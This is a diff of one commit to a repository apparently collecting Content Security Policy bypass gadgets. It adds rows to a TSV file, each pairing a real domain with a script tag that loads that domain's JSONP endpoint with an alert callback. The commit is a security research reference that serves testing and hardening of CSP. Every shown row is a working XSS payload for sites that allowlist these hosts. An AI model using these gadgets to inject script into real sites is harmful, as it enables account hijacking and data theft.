

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added 15 new ones bases on top 1000 websites

```diff
--- a/data.tsv
+++ b/data.tsv
+row 3: a.huodong.mi.com | <script src="https://a.huodong.mi.com/postfree/postfree?callback=alert"></script>
+row 108: oamssoqae.ieee.org | <script src="https://oamssoqae.ieee.org/ieeevendorsso/ssocookievalidator?callback=alert(1)-"></script>
@@ row 108 moved to row 115: portal.ayco.com @@
+row 120: raae2vza0snymz9cm3r8ix74bs71vdlz.edns.ip-api.com | <script src="https://raae2vza0snymz9cm3r8ix74bs71vdlz.edns.ip-api.com/json?callback=alert(1)-"></script>
+row 122: rentokil-domains.firebaseio.com | <script src="https://rentokil-domains.firebaseio.com/.json?callback=alert(1)-"></script>
+row 124: ring.com | <script src="https://ring.com/partials/consent/sv-SE/strings.json?callback=alert"></script>
+row 199: yugiohmonstrosdeduelo.blogspot.com | <script src="https://yugiohmonstrosdeduelo.blogspot.com/feeds/posts/summary?callback=alert"></script>
+row 200: zhike.help.360.cn | <script src="https://zhike.help.360.cn/api/v1/robotWindow?callback=alert(1)-"></script>
+row 201: zhuanjia.sogou.com | <script src="https://zhuanjia.sogou.com/base/ajax/login/login-init?callback=alert(1)-"></script>
```
Also changed, not shown: 7 added rows and 4 moved rows elsewhere in this file.
